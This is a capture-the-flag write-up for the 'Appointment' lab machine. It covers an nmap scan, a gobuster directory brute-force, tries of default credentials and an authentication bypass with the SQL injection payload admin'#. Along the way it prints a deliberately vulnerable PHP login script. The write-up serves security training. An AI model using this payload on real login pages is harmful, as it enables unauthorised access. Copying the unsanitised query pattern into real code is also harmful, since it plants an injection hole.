 # Appointment

- TL;DR: SQL Injection vulenrability in a web application hosted on a apache web server running on port 80.

## Reconnaissance 

- Run an nmap scan:
```
nmap -sC -sV 10.129.58.234     

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 05:00 PDT
Nmap scan report for 10.129.58.234
Host is up (0.081s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
```

<br>

## Exploitation

- We find the following port(s) open:
    - `80/tcp` Apache httpd 2.4.38
- We can view the web application in the browser by visiting `10.129.58.234:80`
- We can use the following command to brute force and check for additional directories:
    ```
    gobuster dir --url http://10.129.58.234:80 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.58.234:80
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.5
    [+] Timeout:                 10s
    ===============================================================
    2023/07/05 05:19:53 Starting gobuster in directory enumeration mode
    ===============================================================
    /images               (Status: 301) [Size: 315] [--> http://10.129.58.234/images/]
    /css                  (Status: 301) [Size: 312] [--> http://10.129.58.234/css/]
    /js                   (Status: 301) [Size: 311] [--> http://10.129.58.234/js/]
    /vendor               (Status: 301) [Size: 315] [--> http://10.129.58.234/vendor/]
    /fonts                (Status: 301) [Size: 314] [--> http://10.129.58.234/fonts/]
    Progress: 87654 / 87665 (99.99%)
    ===============================================================
    2023/07/05 05:32:49 Finished
    ===============================================================
    
    ```
- We do not find any intresting directories from the above command.
- Next we try common combinations to login:
    ```
    admin:admin
    guest:guest
    user:user
    root:root
    administrator:password
    ```
- None of the above combinations work. We could attempt brute-forcing the login page but that could take time and trigger some security alerts.
- The following code is an example for how authentication works using PHP & SQL:
```
<?php

mysql_connect("localhost", "db_username", "db_password"); 
# Connection to the SQL Database.

mysql_select_db("users"); 
# Database table where user information is stored.

$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.

$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.

$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.

if ($count==1){
    # Checks if there's at least 1 result, and if yes:
    $_SESSION['username'] = $username; # Creates a session with the specified $username.
    $_SESSION['password'] = $password; # Creates a session with the specified $password.
    header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
    header("location:login.php");
    # No redirection, as the login failed in the case the $count variable is not equal to 1, HTTP Response code 200 OK.
}
?>
```
- From the above code we know that a successfull session is only created for the specified username and password if the query sent to the the DB returns one or more rows.
- Since there is no input validation, we can enter a query in the username field. For example `admin'#`.
- This will return a record(row) if it exists and will create a successful login session for the specified `username`. 
- We can provide any password because of an SQL injection vulnerabliity in the `username` field. The `admin'#` query comments everything after the `#` in the following query: `SELECT * FROM users WHERE username='admin'#' AND password='$password'`.
- Once we hit the login button with `admin'#:abc1234` we get the flag.